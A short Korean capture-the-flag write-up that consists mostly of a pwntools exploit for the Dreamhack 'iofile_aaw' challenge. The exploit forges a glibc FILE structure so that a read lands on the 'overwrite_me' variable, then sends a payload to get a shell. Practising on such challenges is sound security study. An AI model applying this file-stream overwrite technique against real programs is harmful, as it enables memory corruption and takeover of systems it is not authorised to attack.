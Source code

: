 익스코드

```python
from pwn import *

context.log_level = 'debug'

e = ELF("./iofile_aaw")
r = remote("host3.dreamhack.games", 14573)
# r = process("./iofile_aaw")

buf = e.symbols['overwrite_me']
flags = 0xfbad2248
buf_base = buf
buf_end = buf+1024

# pause()

ex  = p64(flags)   #flag
ex += p64(0x0)  #read_ptr
ex += p64(0x0)  #read_end
ex += p64(0x0)  #read_base
ex += p64(0x0)  #write_base
ex += p64(0x0)  #write_ptr
ex += p64(0x0)  #write_end

ex += p64(buf_base)  #buf_base
ex += p64(buf_end)  #buf_end

ex += p64(0x0)  #save_base
ex += p64(0x0)  #backup_base
ex += p64(0x0)  #save_end
ex += p64(0x0)  #marker
ex += p64(0x0)  #chain
ex += p64(0x0)  #fileno

r.sendlineafter("Data: ", ex)
sleep(1)
r.sendline(p64(0xdeadbeef)+ b"\x00"*1024)
# 마지막에 "\x00"*1024가 붙는 이유는 우리가 read3번째
# 인자에 1024만큼 했기 때문에 1024개를 받지 못하면
# EOF를 전달되지 않아 계속 입력을 받게 된다. 그래서 
# read 의 3번째 인자보다 같거나 더 많은 값을 입력해야 한다.
r.interactive()
```

간단한 거니 따로 설명은 안하겠다.

![](https://i.imgur.com/QhdhU2q.png)
